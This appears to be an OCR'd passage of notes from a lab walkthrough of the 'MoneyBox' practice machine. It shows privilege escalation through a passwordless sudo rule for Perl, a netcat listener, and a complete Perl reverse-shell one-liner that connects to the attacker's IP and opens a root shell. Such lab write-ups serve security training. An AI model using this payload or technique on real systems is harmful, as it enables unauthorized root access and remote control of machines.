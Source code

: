 Last login: Fri Feb 26 09:07:47 2021 from 192.168.43.80

lily@MoneyBox:~$

Now to check what she can run

lily@MoneyBox:~$ sudo -l

Matching Defaults entries for lily on MoneyBox:

    env_reset, mail_badpass,

    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

  

User lily may run the following commands on MoneyBox:

    (ALL : ALL) NOPASSWD: /usr/bin/perl

So she can run perl as root. Escalate to root via perl syntax.

lily@MoneyBox:~$ perl -e 'exec "/bin/bash";'

lily@MoneyBox:~$ sudo !!

sudo exit

[sudo] password for lily: 

Sorry, try again.

Didn't work so I'll try a rev shell

  

Set up catch

nc -nlvp 4444

  

My IP

 →  ip route | grep tun                                                                                   16:27:41

192.168.45.0/24 dev tun0 proto kernel scope link src 192.168.45.201 

192.168.169.0/24 via 192.168.45.254 dev tun0 

  

Rev Shell Script:

perl -e 'use Socket;$i="192.168.45.201";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

  

Make sure to run it as sudo since lily can! 

 kali  🏡                                                                                                        

 →  nc -nlvp 4444                                                                                         16:32:23
